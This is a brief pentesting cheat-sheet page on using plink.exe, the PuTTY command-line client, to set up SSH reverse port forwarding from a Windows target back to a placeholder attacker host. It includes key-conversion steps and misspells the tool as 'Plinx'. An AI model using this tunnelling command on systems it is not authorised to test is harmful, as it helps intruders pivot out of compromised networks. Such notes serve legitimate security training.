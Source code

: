 ```yaml
---
description: Plink.exe is a Windows command line version of the PuTTY SSH client.
---
```


# Plinx.exe

> Now that Windows comes with its **own inbuilt SSH client**, plink is less useful for modern servers; however, it is still a very useful tool, so we will cover it here.

### Reverse Connection

```powershell
cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N
```

### Windows Servers

```bash
# Note !
# Keys generated by ssh-keygen will not work properly here.

# Convert them using the "puttygen" tool :
sudo apt install putty-tools

# Conversion can be done with :
puttygen KEYFILE -o OUTPUT_KEY.ppk

# The resulting .ppk file can then be transferred to the Windows target

# Download a new copy of plinx.exe from 
https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html
```
